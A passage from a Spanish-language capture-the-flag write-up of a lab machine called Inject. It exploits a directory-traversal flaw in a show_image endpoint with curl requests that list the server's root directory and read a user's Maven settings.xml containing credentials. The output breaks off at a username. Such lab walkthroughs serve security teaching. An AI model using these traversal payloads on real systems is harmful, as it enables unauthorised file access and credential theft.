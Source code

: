 ```ruby
phil:x:1001:1001::/home/phil:/bin/bash
```
- Tenemos a root, frank y phil.
- Como tenemos capacidad de listar directorios vamos a ver que tenemos. 
```ruby
curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../../../"
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
- Vemos lo que tiene la raiz y podemos entrar a home y ver que tiene cada usuario. 
![](../assets/images/Inject/web7.png)
- Vemos lo que tiene ese archivo:

```ruby
❯ curl -s -X GET "http://10.10.11.204:8080/show_image?img=../../../../../../../../home/frank/.m2/settings.xml" | cat -l xml
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ STDIN
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <?xml version="1.0" encoding="UTF-8"?>
   2   │ <settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   3   │         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
   4   │   <servers>
   5   │     <server>
   6   │       <id>Inject</id>
   7   │       <username>phil</username>
```